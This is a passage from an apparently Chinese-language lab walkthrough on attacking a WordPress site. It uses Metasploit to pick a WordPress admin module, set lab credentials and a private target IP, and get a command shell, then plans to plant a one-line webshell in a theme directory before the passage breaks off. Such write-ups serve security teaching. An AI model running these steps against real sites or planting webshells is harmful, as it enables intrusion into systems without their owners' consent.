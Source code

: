 使用msf 寻找可利用的wordpress exp

```
sudo msfdb run
```

```
search wordpress admin
```

![image-20211117144658121](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117144658121.png)

![image-20211117145600950](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117145600950.png)



```
use 2
```

```
show options
```

```
set PASSWORD adam14
```

```
set RHOSTS 10.0.2.11
```

```
set TARGETURI /wordpress
```

```
set USERNAME admin
```

![image-20211117145845194](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117145845194.png)

```
run
```

![image-20211117150025521](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117150025521.png)

缺点：有些命令不能成功显示

#### 5.3再次尝试在“主题”插入一句话木马

回顾之前在Web页面插入一句话木马修改404.php模板失败，那在现已经获得命令行shell的前提下，是否可以尝试手动的添加一句话？

```
cd wp-content
```

```
cd themes
```
